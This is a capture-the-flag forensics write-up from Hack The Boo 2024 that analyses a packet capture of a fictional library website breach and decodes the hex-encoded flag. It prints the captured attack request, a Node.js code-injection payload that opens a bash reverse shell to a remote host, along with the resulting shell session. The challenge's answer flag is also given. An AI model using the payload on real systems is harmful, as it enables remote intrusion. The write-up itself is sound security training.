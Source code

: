 ```yaml
---
layout: default
title: Forbidden Manuscript
---
```


# [Hack The Boo 2024 - Practice](index.md) - Forensics - Forbidden Manuscript

> On the haunting night of Halloween, the website of "Shadowbrook Library"—a digital vault of forbidden and arcane manuscripts—was silently breached by an unknown entity. Though the site appears unaltered, unsettling anomalies suggest something sinister has been stolen from its cryptic depths. Ominous network traffic logs from the time of the intrusion have emerged. Your task is to delve into this data and uncover any dark secrets that were exfiltrated.

We're provided with a zip file containing a .pcapng file - a packet capture (likely of some network traffic). There are several great tools for inspecting these files, but the easiest is Wireshark.

There aren't many captured frames here (156) so its easy to just skim through them to see if anything jumps out. Frame #103 has the word "exploit" in the request URL, which I'd say is fairly suspicious.

The entire HTTP request url is:
```
http://shadowbrook.htb/?user=exploit%28%29%20%7B%7D%20%26%26%20%28%28%28%29%3D%3E%7B%20global.process.mainModule.require%28%22child_process%22%29.execSync%28%22bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.104%2F4444%200%3E%261%27%22%29%3B%20%7D%29%28%29%29%20%26%26%20function%20pwned
```
This is "htmlencoded", so we can make it more readable by "htmldecoding" it. I used an online tool [https://www.urldecoder.io/](https://www.urldecoder.io/)

```
http://shadowbrook.htb/?user=exploit() {} && ((()=>{ global.process.mainModule.require("child_process").execSync("bash -c 'bash -i >& /dev/tcp/192.168.56.104/4444 0>&1'"); })()) && function pwned
```

That all looks very suspicious, but none of it is a flag for this challenge, so we'll need to keep looking.

In addition to the HTTP stream, there is a TCP stream in this file that we can inspect. Right clicking any of the TCP frames (I used frame #121), and selecting **Follow** -> **TCP Stream**, we can see if there is anything human-readable here.

```
.]0;root@quantum: /home/oliver/Downloads/shadowbrook-library.root@quantum:/home/oliver/Downloads/shadowbrook-library# ls
ls
data
docker-compose.yml
Dockerfile
node_modules
package.json
package-lock.json
src
.]0;root@quantum: /home/oliver/Downloads/shadowbrook-library.root@quantum:/home/oliver/Downloads/shadowbrook-library# ls /
ls /
bin
bin.usr-is-merged
boot
cdrom
dev
etc
flag
home
lib
lib64
lib.usr-is-merged
lost+found
media
mnt
opt
proc
root
run
sbin
sbin.usr-is-merged
snap
srv
swap.img
sys
tmp
usr
var
.]0;root@quantum: /home/oliver/Downloads/shadowbrook-library.root@quantum:/home/oliver/Downloads/shadowbrook-library# cat /flag
cat /flag
4854427b66307262316464336e5f6d346e753563723170375f31355f316e5f3768335f77316c647d
.]0;root@quantum: /home/oliver/Downloads/shadowbrook-library.root@quantum:/home/oliver/Downloads/shadowbrook-library# exit
exit
exit
```

Looks like this is some output from a remote shell of some sort (likely the one we saw get installed via the HTTP stream). 

We see an `ls` command, and the output from that command.
We then see the command `cat /flag`, and the following output:

```
4854427b66307262316464336e5f6d346e753563723170375f31355f316e5f3768335f77316c647d
```

This looks a bit like a base64 encoded string at first glance, but its has some differences - notably that we don't see any characters that are alphabetically after the letter "F", which may indicate that this is actually hex encoded.

Cyberchef makes this easy to test. It's not [base64](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=NDg1NDQyN2I2NjMwNzI2MjMxNjQ2NDMzNmU1ZjZkMzQ2ZTc1MzU2MzcyMzE3MDM3NWYzMTM1NWYzMTZlNWYzNzY4MzM1Zjc3MzE2YzY0N2Q&oeol=CR), all we get here is gibberish.

[From Hex](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=NDg1NDQyN2I2NjMwNzI2MjMxNjQ2NDMzNmU1ZjZkMzQ2ZTc1MzU2MzcyMzE3MDM3NWYzMTM1NWYzMTZlNWYzNzY4MzM1Zjc3MzE2YzY0N2Q&oeol=CR) gets us the flag though, so it looks like it was hex encoded.

```
HTB{f0rb1dd3n_m4nu5cr1p7_15_1n_7h3_w1ld}
```